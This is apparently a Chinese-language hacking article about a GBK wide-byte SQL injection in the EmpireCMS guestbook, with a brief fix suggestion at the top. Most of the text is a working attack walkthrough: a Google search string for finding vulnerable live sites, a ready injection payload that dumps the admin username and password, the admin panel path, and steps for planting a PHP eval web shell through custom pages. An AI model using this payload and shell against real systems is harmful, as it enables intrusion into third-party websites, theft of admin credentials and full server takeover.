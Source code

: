 四、修补

官方虽然也被爆了一段时间了，但是似乎并没有引起足够的重视，截止至发稿日仍然没看到官方有任何关于修补此漏洞的解决方案（其实也不能完全算是帝国CMS的错，编码这个问题最近闹得比较凶-_-）。

解 决方法：就是在初始化连接和字符集之后，使用SET character\_set\_client=binary来设定客户端的字符集是二进制的。修改Windows下的MySQL配置文件一般是 my.ini，Linux下的MySQL配置文件一般是my.cnf，比如：mysql\_query("SET character\_set\_client=binary");。character\_set_client指定的是SQL语句的编码，如果设置为 binary，MySQL就以二进制来执行，这样宽字节编码问题就没有用武之地了。  
&nbsp;

大 家都知道PHP在开启magic\_quotes\_gpc或者使用addslashes、iconv等函数的时候，单引号（&#8217;）会被转义成&#8217;。比如字 符%bf在满足上述条件的情况下会变成%bf&#8217;。其中反斜杠（）的十六进制编码是%5C，单引号（&#8217;）的十六进制编码是%27，那么就可以得出%bf &#8216;=%bf%5c%27。如果程序的默认字符集是GBK等宽字节字符集，则MySQL会认为%bf%5c是一个宽字符，也就是“縗”。也就是说%bf &#8216;=%bf%5c%27=縗&#8217;。%bf并不是唯一的一个字符，应该是%81-%FE之间的任意一个都可以。不太好理解，我们用小葵写的一个字符转换的小 工具来转换一下，如图1。  
&nbsp;  
打开Google以关键字inurl:e/tool/gbook/?bid=1进行搜索。   
搜索出来的是留言本，其实就是留言本出现漏洞了。   
主要填写您的姓名和联系邮箱这两处，其它的随便填。   
您的姓名:縗   
联系邮箱:,1,1,1,(select concat(username,0x5f,password,0x5f,rnd) from phome_enewsuser where userid=1),1,1,1,0,0,0)/*   
然后进行提交返回页面即爆出用户名密码。人品好的话，密码破解成功后进入网站后台，后台地址 e/admin/   
接着拿shell，进入后台后点顶部模板管理。然后左边的自定义页面-增加自定义页面，页面内容填写PHP一句话，<?php eval($_POST[cmd]);?>完了，回到管理自定义页面，点击刚才起的页面名称。页面直接跳转到e/admin/template /x.php，提示会找不到页面，去掉template即可。真实地址是e/admin/x.php，如显示一片空白的话就成功了。   
最后用lanker微型PHP+ASP双用版连接一句话即可。   
提示:别死心眼啊，自定义页面内容可以改成ASP的。

&nbsp;